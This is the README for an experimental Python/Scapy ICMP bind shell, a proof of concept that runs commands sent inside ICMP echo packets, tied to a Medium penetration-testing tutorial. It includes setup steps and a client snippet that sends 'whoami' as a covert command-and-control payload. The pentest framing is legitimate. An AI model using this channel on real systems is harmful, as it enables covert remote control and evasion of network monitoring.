 This is part of a tutorial written on Medium, please follow the link below for more context.
**[Practical Insider Threat Penetration Testing Cases with Scapy (Shell Code and Protocol Evasion)](https://medium.com/swlh/practical-insider-threat-penetration-testing-cases-with-scapy-shell-code-and-protocol-evasion-e18d43d50da)**

# icmp-bindshell
Experimental python3.x based ICMP bind shell listener using scapy and windows 'compatible'

## README/USAGE:
This is a simple PoC for sending basic C2 over ICMP echo/replies via 'bind' equivalent
The listener has been tested on Python 3.x under Windows within 64 bit python default settings
**Ensure that you do a 'pip install scapy' prior to using the script**
**Modify the sniff listener 'iface=' to be whichever interface you use**

In windows, you can find this under show_interfaces() illustrated below:
>> show_interfaces()
INDEX  IFACE                                           IP               MAC
13     Intel(R) Dual Band Wireless-AC 8265             172.20.20.20     IntelCor:11:22:00

## Client Usage Example:
*Run scapy interactive (aka start > run > cmd.exe > scapy)
command = "whoami"
sendpkt = IP(src="10.10.10.10", dst="20.20.20.20")/ICMP(type=8)/Raw(load=command)
ans, unans = sr(sendpkt, timeout=2)
ans[0]*

### NOTE: Any expected return payload seems to not work well with multi-line returns.
Example findings with this base code:
whoami - returns in icmp response pkt
hostname - returns in icmp response pkt
ipconfig - Returns only a new line in response pkt and '\n' errors in the listening console screen
ping foo.com - Returns empty in response pkt with payload on the listening console screen


*This software provides no expressed warranty or liability for use and is licensed under GPLv2
Dennis Chow dchow[AT]xtecsystems.com
www.scissecurity.com*

![example](https://github.com/dc401/icmp-bindshell/raw/master/icmp-shellcode-experimental.png)
